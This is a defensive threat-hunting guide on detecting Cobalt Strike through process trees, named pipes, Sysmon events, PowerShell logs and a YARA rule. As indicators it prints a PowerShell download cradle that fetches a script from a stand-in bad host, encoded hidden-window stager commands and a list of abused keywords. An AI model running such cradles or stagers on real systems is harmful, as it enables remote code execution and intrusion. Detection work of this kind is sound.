# Cobalt Strike

> **NOTE:** Cobalt Strike's strength is found within it's flexibility, durability, and elasticity. Essentially, it's able to string together many exploits in a robust and customizable C2 framework better than most other frameworks out there...

## Process Tree Detection

> From memory extraction...



### IoCs
1. Prescence of `WmiPrvSE.exe` spawning multiple `powershell.exe` processes/sacrifical processes.
2. Multiple `rundll32.exe` processes generated (default **sacrifical process** for Cobalt Strike; can be changed but still noisy!) 


## Cobalt Strike PowerShell and WMI Processes

> Here we are drilling down on the `rundll32.exe` process of interest...



### IoCs
1. Naked command line with **no additional parameters specified** (default setting).
> That being said, the setting can be changed via the malleable C2 Setting
> 
> **HOWEVER** even with a change in the default settings, having multiple command lines with no parameters specified looks **very odd**!

## SysWOW64 Activity

> Here we are looking for the execution of 32-bit code (SysWOW64) associated with with the multiple sacrifical processes of `powershell.exe`



### IoCs
1. Multiple instances of running **`SysWOW64`**, which indicates the prescence of 32-bit code linked with Cobalt Strike! 

## Named Pipe Detection (from Memory)

> Most common and **default** named pipes used by Cobalt Strike

| Pipe Name | Description |
| --- | --- |
| `\\.\pipe\MSSE-####-server` | Default Artifact Kit (AV bypass) |
| `\\<target>\pipe\msagent_##` | Beacon P2L (SMB) Communication |
| `\\.\pipe\status_##` | Stager for Lateral Movement (psexec\_psh Module) |
| `\\.\pipe\postex_ssh_####` | Communication Pipe for SSH Sessions |
| `\\.\pipe\########` (7-10 char) | Post-Exploitation Jobs (mimikatz, powerpick, pth, etc.) |
| `\\.\pipe\postex_####` | Post-Exploitation Jobs v4.2+ |

> '#' = randomly generated hex-value



> Here is an example of changing the output of Named Pipe names so that it is more difficult to detect, **HOWEVER**, even with an alternate named pipe name seeing an internal workstation connecting to another internal workstation via named pipe is still odd...

### IoCs
1. Each of the named pipes **must** all be changed from defaults, otherwise they can be identified. Attackers often don't modify the defaults because they are still able to go undetected!

## Named Pipe Detection (with Sysmon)



### IoCs
1. Enable **Named Pipe** creation events within Sysmon
2. Look for Events **17** and **18** indicating named creation
3. Pay attention to **PipeName** for default or unique names associated with Cobalt Strike
4. Pay attention to **Image** to look for **SysWOW64** (unique to Cobalt Strike for 32-bit code) and oddly named executables (e.g., `perfmonsvc64.exe`) that seem out of place

## Idenfication of Named Pipes at Scale (with Sysmon)

> Here we are filtering for Event Codes 17 and 18 (named pipe creation), pay special attention to **PipeName** and **Executable (Image Binary)** columns.



### IoCs
1. Within **Executable (Image Binary)** column we see **`32-bit PowerShell`** being ran multiple insances of **`rundll32.exe`**
2. Within **PipeName** column we seemingly **random Pipe Names**
    > **NOTE:** the length of the "random" named pipes are associated with the commands executed (e.g., mimikatz = **8 characters**, named piped = **8 characters**) 

```bash

# Sample YARA rule to detect randomized Named Pipes in an environment

rule cs_job_pipe
{
    meta:
        description = "Detects CobaltStrike Post Exploitation Named Pipes"
        author = "Riccardo Ancarani & Jon Cave"
        date = "2020-10-04"
    strings:
        $pipe = /\\\\\.\\pipe\\[0-9a-f]{7,10}/ ascii wide fullword
        $guidPipe = /\\\\\.\\pipe\\[0-9a-f]{8}\-/ ascii wide
    condition:
        $pipe and not ($guidPipe)
}
```

* Additional [Malleable Profiles](https://gist.github.com/MHaggis/6c600e524045a6d49c35291a21e10752) that can used for additional IoCs to hunt for!

> **NOTE:** one set of attackers will always use the **default** profiles, whereas another set of attackers will look to **modify the defaults**

* [Detection Name Pipe Creation](https://labs.withsecure.com/publications/detecting-cobalt-strike-default-modules-via-named-pipe-analysis)

## Identifying Cobalt Strike via PowerShell

**Enable PS Script Block Logging**

> PS Script Block Logging enabled via Administrative Template (Group Policy) will log:
> * Cmdlets, functions, full scripts
> * Any use of PS > shell, ISE, or custom implementations

* PSv5 records entire script **ONLY** the first it's ran...

Once properly enabled, pay attention to the following EIDs:
* **EID 4103**: Module logging and pipeline output
* **EID 4104**: Script Block logging

Recommendations:
* Module, Script Block, and Transcription logs
* Increase default log sizes
* Centralize your logs
* Create filters to search for indicators

### IoCs

> Output of the **`powershell-import`** utility within Cobalt Strike...



1. **`IEX`** download cradle typically used by machines to download things from the internet. Here we see it's reaching out to itself via **`127.0.0.1`**, **very odd**!
2. The prefix **`-exec bypass -EncodedCommand`** is very common for commands ran via Cobalt Strike.
3. **`FromBase64String`** another common encoding for an imported PowerShell script.

## Scaling Detection in PowerShell Logs

* Events may capture different parts of an attack
* **4103** records module/pipeline output
* **4104** records code (scripts) executed (look for “Warning” events)
* The PowerShell download cradle is heavily used by Cobalt Strike:
**`IEX (New-Object Net.Webclient).downloadstring("http://bad.com/bad.ps1")`**

**Filter using commonly abused keywords**

| | | | |
| --- | --- | --- | --- |
| DownloadString | EncodedCommand | FromBase64String | rundll32 |
| IEX | Invoke-Expression | WebClient | syswow64 |
| powershell -version | http://127.0.0.1 | Reflection | $DoIt |
| Start-Process | Invoke-WMIMethod | Invoke-Command | |

* Look for obvious signs of encoding and obfuscation

## Cobalt Strike Beacon Analysis

### `powershell` and `powershell-import`

* `powershell` Beacon:
  * Executes commands written in PowerShell within the Cobalt Strike framework, OS will generate an **EID 400 event log (PowerShell Engine Startup)** on the system that the command is executed on. 

* `powershell-import` Beacon:
  * Imports a PowerShell script into the Beacon session. The file system artifacts that are generated will vary depending on whether the powershell command is executed before or after the powershell-import command.

**Observations of `powershell` before `powershell-import`**



#### IoCs
1. The HostApplication field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The Base64 encoded command decodes to the `<command>` executed

**Observations from `powershell` after `powershell-import`**



#### IoCs
1. The HostApplication field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:<ephemeral-port-number>/'); <command>`

### `powerpick`

* `powerpick` Beacon:
  * Used to execute a PowerShell command without invoking `powershell.exe`
  * The filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system
  * The powerpick command will contain a **mismatch between the version number** in the `HostVersion` and `EngineVersion` event log fields
  * The event generated will also have the path to the `rundll32.exe` executable in the `HostApplication` field, as it is **the default program**


#### IoCs
1. `HostName` field is set to `ConsoleHost`
2. `HostApplication` field is set to the file path of `rundll32.exe` (is the **current default**, but may change if the attacker is motivated enough)
3. The `HostVersion` and `EngineVersion` fields are set to different values

### `jump psexec`

* `jump psexec` Beacon:
  * Establishes an additional Beacon on a remote system.
  * When executed the `jump psexec` command through a Beacon session, the filesystem will generate an **EID 7045 event log (Service Installation)** on the remote system



> **Cobalt Strike v. 4.1 and earlier:** `jump psexec` Beacon command will have the “Service File Name” set to `127.0.0.1` localhost (e.g., `\\127.0.0.1\ADMIN$\7f5747a.exe`)

#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `\\127.0.0.1\ADMIN$\<7-alphanumeric-characters>.exe`


> **Cobalt Strike v. 4.1+:** `jump psexec` Beacon command will have the “Service File Name” set to the destination computer's IP address `10.0.0.16` (default setting) (e.g., `\\10.0.0.16\ADMIN$\9a845c4.exe`)

#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `\\<System-IPAddress>\ADMIN$\<7-alphanumeric-characters>.exe`


### `jump psexec_psh`

* `jump psexec_psh` Beacon:
  * Establishes an additional Beacon on a remote system via the Windows Service Control Manager.
  * Creates and starts a service that executes a base64 encoded PowerShell Beacon stager, which generates an **EID 7045 event log (Service Installation)** on the remote system



#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand <base64-encoded-command>`

### `jump winrm`

* `jump winrm` Beacon: 
  * Establishes a Beacon on a remote system utilizing the Windows Remote Management (WinRM) interface (LOTL).
  * When executed by an adversary through a Beacon session, the filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system.



#### IoCs for Compromised System
1. The `HostApplication` field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `IEX (New-Object Net.Webclient).DownloadString(‘http://127.0.0.1:<ephemeral-port-number>/’)`



#### IoCs for Remote (Attacker) System
1. The `HostApplication` field is set to `<path-to-PS-executable> -Version <PS-Version> -s -NoLogo -NoProfile`

### `remote-exec wmi`

* `remote-exec wmi` Beacon:
  * Executes a command on a remote system via WMI.
  * When executed the filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system with the standard Cobalt Strike PowerShell command prefix in the `HostApplication` field



#### IoCs
1. The `HostApplication` field is set to `powershell -nop -exec Bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `Invoke-WMIMethod win32_process -name create -argumentlist '<command>' -ComputerName <target>`

### `remote-exec powershell`

* `remote-exec powershell` Beacon:
  * Executes a command on a remote system via PowerShell remoting from a compromised system.
  * Generates an **EID 400 event log (PowerShell Engine Startup)** on the compromised system. 
  * The event created will contain the standard Cobalt Strike PowerShell command prefix in the `HostApplication` field.

